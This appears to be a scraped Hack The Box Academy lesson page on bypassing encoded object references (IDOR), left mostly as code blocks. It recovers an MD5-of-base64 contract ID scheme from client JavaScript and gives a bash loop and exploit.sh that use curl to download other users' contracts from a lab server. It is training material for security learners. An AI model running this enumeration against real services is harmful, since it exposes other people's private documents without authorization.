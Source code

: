 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/134/section/1187
// Platform Version: V1
// Module ID: 134
// Module Name: Web Attacks
// Module Difficulty: Medium
// Section ID: 1187
// Section Title: Bypassing Encoded References
// Page Title: Web Attacks
// Page Number: 9
-->

# Bypassing Encoded References

**Module Name:** Web Attacks **Page Number:** 9

#### WEB ATTACKS

# Bypassing Encoded References

![https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_contracts.jpg](https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_contracts.jpg)

![https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_download_contract.jpg](https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_download_contract.jpg)

``` php
contract=cdd96d3cc73d1dbdaffa03cc6cd7339b
```

``` shell-session
[!bash!]$ echo -n 1 | md5sum

c4ca4238a0b923820dcc509a6f75849b -
```

## Function Disclosure

``` javascript
function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}
```

``` shell-session
[!bash!]$ echo -n 1 | base64 -w 0 | md5sum

cdd96d3cc73d1dbdaffa03cc6cd7339b -
```

## Mass Enumeration

``` shell-session
[!bash!]$ for i in {1..10}; do echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; done

cdd96d3cc73d1dbdaffa03cc6cd7339b
0b7e7dee87b1c3b98e72131173dfbbbf
0b24df25fe628797b3a50ae0724d2730
f7947d50da7a043693a592b4db43b0a1
8b9af1f7f76daf0f02bd9c48c4a2e3d0
006d1236aee3f92b8322299796ba1989
b523ff8d1ced96cef9c86492e790c2fb
d477819d240e7d3dd9499ed8d23e7158
3e57e65a34ffcb2e93cb545d024f5bde
5d4aace023dc088767b4e08c79415dcd
```

``` bash
#!/bin/bash

for i in {1..10}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
    done
done
```

``` shell-session
[!bash!]$ bash ./exploit.sh
[!bash!]$ ls -1

contract_006d1236aee3f92b8322299796ba1989.pdf
contract_0b24df25fe628797b3a50ae0724d2730.pdf
contract_0b7e7dee87b1c3b98e72131173dfbbbf.pdf
contract_3e57e65a34ffcb2e93cb545d024f5bde.pdf
contract_5d4aace023dc088767b4e08c79415dcd.pdf
contract_8b9af1f7f76daf0f02bd9c48c4a2e3d0.pdf
contract_b523ff8d1ced96cef9c86492e790c2fb.pdf
contract_cdd96d3cc73d1dbdaffa03cc6cd7339b.pdf
contract_d477819d240e7d3dd9499ed8d23e7158.pdf
contract_f7947d50da7a043693a592b4db43b0a1.pdf
```

# 

# 

#### Questions

####